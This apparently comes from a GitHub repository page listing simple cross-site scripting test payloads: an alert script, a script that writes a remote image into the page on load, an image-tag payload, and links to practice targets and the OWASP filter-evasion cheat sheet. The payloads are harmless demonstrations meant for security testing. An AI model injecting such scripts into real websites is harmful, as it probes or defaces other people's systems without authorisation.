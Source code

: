 # Alert
```js
<script>alert("Hello");</script>
```
# Image Hidden
```js
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("Hidden scripted image.");</script>
```
# Image

```js
<img+src="https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp">
```

# Test 
```url
https://xss-game.appspot.com/level1
http://testphp.vulnweb.com/
```

- - MOre: https://owasp.org/www-community/xss-filter-evasion-cheatsheet
